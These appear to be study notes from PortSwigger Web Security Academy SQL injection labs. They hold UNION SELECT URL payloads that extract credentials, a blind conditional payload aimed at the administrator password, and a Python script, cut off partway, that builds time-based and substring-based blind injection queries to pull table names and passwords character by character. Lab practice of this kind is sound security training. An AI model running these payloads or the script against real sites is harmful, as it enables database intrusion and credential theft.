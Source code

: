 USERS_HZIRJO

https://0ad6005e03b6aea8c1bbf6f80048000f.web-security-academy.net/filter?category=category=Lifestyle%27%20UNION%20SELECT%20%27header%27,column_name%20FROM%20all_tab_columns--

USERNAME_RILCDM
PASSWORD_KIPXOT

https://0ad6005e03b6aea8c1bbf6f80048000f.web-security-academy.net/filter?category=category=Lifestyle%27%20UNION%20SELECT%20USERNAME_RILCDM,PASSWORD_KIPXOT%20FROM%20USERS_HZIRJO--
![](https://i.imgur.com/dmLSIaP.png)


### Blind SQL injection with conditional responses


https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
```
' UNION SELECT 'a' FROM users WHERE username='administrator' AND 1=1--
```

```python
#!/usr/bin/python3
# https://github.com/timip/exploit/blob/master/timeclock.py


import requests, string, sys
import urllib.parse

delay = 5
payload = lambda x: "__VIEWSTATE=/wEPDwUKLTQ0NDEwMDQ5MmRksS3kT9xVa5WcaOExJczybgwm5ag61c1aSJauWk+MueM=&__VIEWSTATEGENERATOR=CA0B0334&__EVENTVALIDATION=/wEdAAQlk/dmKT4Sorxxd/xByuYXG8sL8VA5/m7gZ949JdB2tEE+RwHRw9AX2/IZO4gVaaKVeG6rrLts0M7XT7lmdcb6cSWj1jCV5XpbYX8jTlKxWkDqoWst7QvUmEJo+jB/FoQ=&ctl00$ContentPlaceHolder1$UsernameTextBox="+x+"&ctl00$ContentPlaceHolder1$PasswordTextBox=&ctl00$ContentPlaceHolder1$LoginButton=Enter"
payload = lambda x: {
    "__VIEWSTATE":"/wEPDwUKLTQ0NDEwMDQ5MmRksS3kT9xVa5WcaOExJczybgwm5ag61c1aSJauWk+MueM=",
    "__VIEWSTATEGENERATOR":"CA0B0334",
    "__EVENTVALIDATION":"/wEdAAQlk/dmKT4Sorxxd/xByuYXG8sL8VA5/m7gZ949JdB2tEE+RwHRw9AX2/IZO4gVaaKVeG6rrLts0M7XT7lmdcb6cSWj1jCV5XpbYX8jTlKxWkDqoWst7QvUmEJo+jB/FoQ=",
    "ctl00$ContentPlaceHolder1$UsernameTextBox":x,
    "ctl00$ContentPlaceHolder1$PasswordTextBox":"", 
    "ctl00$ContentPlaceHolder1$LoginButton":"Enter"}
q = lambda pos, char, entry,col,table,ordercol,condition: f"'; IF LOWER(SUBSTRING((SELECT {col} FROM {table} WHERE {condition} ORDER BY {ordercol} OFFSET {entry} ROWS FETCH NEXT 1 ROWS ONLY),{pos},1))='{char}' WAITFOR DELAY '00:00:{delay}'; --"

# Tables
#query = lambda pos,char,entry: q(pos,char,entry,"TABLE_NAME","information_schema.TABLES","TABLE_NAME", "1=1") #"COL", "TABLE", "CONDITION")
# Columns
query = lambda pos,char,entry: q(pos,char,entry,"COLUMN_NAME","information_schema.COLUMNS","COLUMN_NAME", "TABLE_NAME='users'") #"COL", "TABLE", "CONDITION")
# Usernames
#query = lambda pos,char,entry: q(pos,char,entry,"password_hash","users","username", "1=1") #"COL", "TABLE", "CONDITION")

query = lambda pos,char,entry: f"' UNION SELECT 'a' FROM users WHERE username='administrator' AND substring(password, {pos},1)='{char}'--"

print(query(1, 1, 1))
chars = string.ascii_letters + '0123456789' # + string.punctuation

print("Running!")

for e in range(0,100):
```